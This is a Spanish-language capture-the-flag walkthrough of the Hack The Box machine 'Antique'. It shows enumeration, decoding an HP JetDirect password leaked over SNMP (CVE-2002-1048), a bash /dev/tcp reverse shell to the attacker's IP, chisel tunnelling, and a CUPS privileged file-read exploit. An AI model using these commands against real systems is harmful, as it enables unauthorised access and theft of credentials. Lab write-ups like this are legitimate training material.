

Hack The Box: Antique Writeup
Welcome to my detailed writeup of the easy difficulty machine “Antique” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
1$ rustscan -a 10.129.250.207 --ulimit 5000 -g
210.129.250.207 -> [23]1$ nmap -p23 10.129.250.207 -oN allPorts
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 23:18 CEST
3Nmap scan report for 10.129.250.207
4Host is up (0.038s latency).
5
6PORT STATE SERVICE
723/tcp open telnet
8
9Nmap done: 1 IP address (1 host up) scanned in 0.12 secondsUDP Enumeration
1$ sudo nmap --top-ports 1500 --min-rate 5000 -sU -n -Pn 10.129.250.207 -oN allPorts.UDP
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 23:19 CEST
3Nmap scan report for 10.129.250.207
4Host is up (0.037s latency).
5Not shown: 1494 open|filtered udp ports (no-response)
6PORT STATE SERVICE
788/udp closed kerberos-sec
8161/udp open snmp
919933/udp closed unknown
1025212/udp closed unknown
1127673/udp closed unknown
1230661/udp closed unknown
13
14Nmap done: 1 IP address (1 host up) scanned in 0.82 secondsLa verdad que me sorprendió solo ver el telnet abierto por TCP..
SNMP Enumeration
Como tampoco podía hacer mucho, voy a enumerar con snmpbulkwalk a ver que se está compartiendo por SNMP.
1$ snmpbulkwalk -c public -v2c 10.129.250.207
2SNMPv2-SMI::mib-2 = STRING: "HTB Printer"Así que decidí conectarme por telnet, a ver si conseguía algo mas de información.
1$ telnet 10.129.250.207
2Trying 10.129.250.207...
3Connected to 10.129.250.207.
4Escape character is '^]'.
5
6HP JetDirect
7
8Password: admin
9Invalid password
10Connection closed by foreign host.HP JetDirect, algo es algo…
 Buscando con
Buscando con searchsploit vemos lo siguiente…
A problem with JetDirect printers could make it possible for a remote user to gain administrative access to the printer.
It has been reported that HP JetDirect printers leak the web JetAdmin device password under some circumstances. By sending an SNMP GET request to a vulnerable printer, the printer will return the hex-encoded device password to the requester. This could allow a remote user to access and change configuration of the printer.
C:\>snmputil get example.printer public .1.3.6.1.4.1.11.2.3.9.1.1.13.0Probando con el OID que nos ha compartido..
1$ snmpwalk -c public -v2c 10.129.250.207 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
2SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
333 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135¡Nos responde algo!
Foothold
Como dato, el CVE es CVE-2002-1048 Del a√±o de la polka…
Con un pequeño script en python
1#!/usr/bin/python3
2BITS = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135"
3
4def decode():
5 bits = BITS.replace(" ", "")
6 result_string = ''.join([chr(int(bits[i:i+2], 16)) for i in range(0, len(bits), 2)])
7 print(result_string)
8 pass
9
10if __name__ == "__main__":
11 decode(1$ python3 decode.py
2P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGWaA"1&1A5Me dio la sensación de que se habían colado caracteres, por lo cual me quedé solo con la primera fila de hexadecimal
50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
Y ahora tiene mejor pinta.
1$ python3 decode.py
2P@ssw0rd@123!!12Probando combinaciones, vi que faltaba un tres en la contraseña.
P@ssw0rd@123!!123

Enumerando lo que podía hacer, nos encontramos esta línea
exec: execute system commands (exec id)
1exec id
2uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)Ahora solo queda mandarnos una reverse shell.
Nos ponemos en escucha con netcat por el puerto 443.
1$ sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...Nos mandamos la revshell…
> exec bash -c "bash -i >& /dev/tcp/10.10.14.18/443 0>&1"1$ sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.18] from (UNKNOWN) [10.129.250.207] 56774
4bash: cannot set terminal process group (1146): Inappropriate ioctl for device
5bash: no job control in this shell
6lp@antique:~$ whoami
7whoami
8lp
9lp@antique:~$ Y ya podríamos leer la flag de usuario
1lp@antique:~$ cat user.txt
2cat user.txt
31639908b7ad1cd...Privilege Escalation
Después de enumerar un rato el sistema.
1lp@antique:~$ netstat -tulnp
2netstat -tulnp
3(Not all processes could be identified, non-owned process info
4 will not be shown, you would have to be root to see it all.)
5Active Internet connections (only servers)
6Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
7tcp 0 0 0.0.0.0:23 0.0.0.0:* LISTEN 1163/python3
8tcp 0 0 127.0.0.1:631 0.0.0.0:* LISTEN -
9tcp6 0 0 ::1:631 :::* LISTEN -
10udp 0 0 0.0.0.0:68 0.0.0.0:* -
11udp 0 0 0.0.0.0:161 0.0.0.0:* - Vemos un puerto interno 631.
Vamos con chisel a hacer Reverse Port Forwarding
Nos lo compartimos creando un servidor web temporal con python3
1$ python3 -m http.server 8081Y nos lo descargamos en la máquina víctima con wget
1lp@antique:/tmp$ wget http://10.10.14.18:8081/chiselEn la máquina víctima nos ponemos en escucha por el puerto 1234.
1$ sudo ./chisel server --reverse -p 1234Importante ejecutar con sudo ya que se va a usar un puerto inferior a 1024.
Ahora en la máquina víctima..
1./chisel client 10.10.14.18:1234 R:631:127.0.0.1:631Y ahora nuestro puerto local 631 es el puerto 631 de la máquina víctima.
1$ sudo ./chisel server --reverse -p 1234
22024/08/05 23:47:39 server: Reverse tunnelling enabled
32024/08/05 23:47:39 server: Fingerprint NlttnPRHpMQoAwbRWuNr/L0LOxmCqUuczmy3ifi7RMU=
42024/08/05 23:47:39 server: Listening on http://0.0.0.0:1234
52024/08/05 23:47:40 server: session#1: tun: proxy#R:631=>631: ListeningHaciendo una simple enumeración con nmap vemos que es un servicio CUPS 1.6.
1$ nmap -p631 -sCV 127.0.0.1
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 23:49 CEST
3Nmap scan report for localhost (127.0.0.1)
4Host is up (0.00019s latency).
5
6PORT STATE SERVICE VERSION
7631/tcp open ipp CUPS 1.6
8| http-robots.txt: 1 disallowed entry
9|_/
10| http-methods:
11|_ Potentially risky methods: PUT
12|_http-server-header: CUPS/1.6
13|_http-title: Home - CUPS 1.6.1
14
15Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
16Nmap done: 1 IP address (1 host up) scanned in 7.23 secondsAsí se ve.

Y vemos una vulnerabilidad de tipo RCE que puede que sea compatible con esta versión.

Necesito python2 para este exploit y no lo tengo instalado en mi máquina, así que vamos a buscar una forma alternativa..
1$ python3 rce.py
2 File "/home/pointedsec/Desktop/antique/content/rce.py", line 16
3 print '''
4 ^^^^^^^^^
5SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?Parece ser que podemos ejecutar directamente este PoC desde la máquina víctima si estamos en el grupo lpadmin
Así que vamos a compartirnoslo.
Y si le damos permiso de ejecución y lo ejecutamos.
1lp@antique:/tmp$ ./cups-root-file-read.shY podemos leer archivos privilegiados de la máquina. 
¡Y ya estaría!
Happy Hacking! üöÄ
#HackTheBox #Antique #Writeup #Cybersecurity #Penetration Testing #CTF #Reverse Shell #Privilege Escalation #RCE #Local File Inclusion #Exploit #Linux #SMB Enumeration #Information Leakage #CVE-2002-1048 #Scripting #Python Scripting #Reverse Port Forwarding #CVE-2012-5519